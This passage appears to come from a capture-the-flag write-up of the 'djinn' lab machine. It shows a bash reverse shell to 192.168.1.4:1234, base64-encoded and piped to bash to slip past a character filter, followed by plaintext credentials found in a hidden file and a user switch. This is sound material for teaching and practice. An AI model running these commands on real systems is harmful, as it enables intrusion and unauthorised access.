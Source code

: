 ![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/4.png)

So I tried executing a reverse shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/5.png)

But It displays ``Wrong Choice of Words`` 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/6.png)

After some experiment, I came to know it filters some special characters. We can bypass special characters by using base64 method.


```echo "bash -i >& /dev/tcp/192.168.1.4/1234 0>&1"|base64```

So I ``echo`` the base64 encoded content and pipe that to ``base64 -d``(which decodes) again and another pipe to execute it as ``bash``.

```echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNC8xMjM0IDA+JjEK|base64 -d|bash```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/7.png)


## Low Privilege Escalation to Nitish:

I checked ``/home`` and found 2 users ``nitish`` and ``sam``. I don't have permission on sam, but I can view ``nitish`` directory and found a hidden file ``.dev`` 
It gives me ``creds.txt``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/8.png)

`creds.txt`

``nitish:p4ssw0rdStr3r0n9``

Now I can switch user to ``nitish``

```
www-data@djinn:/home/nitish$ su nitish
Password: 
nitish@djinn:~$ whoami
nitish
nitish@djinn:~$ 
```

## Low Privilege Escalation to Sam:

Once I got user ``nitish`` I did ``sudo -l`` and found a binary ``genie`` which can be executed as user ``sam`` without the password.
```
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
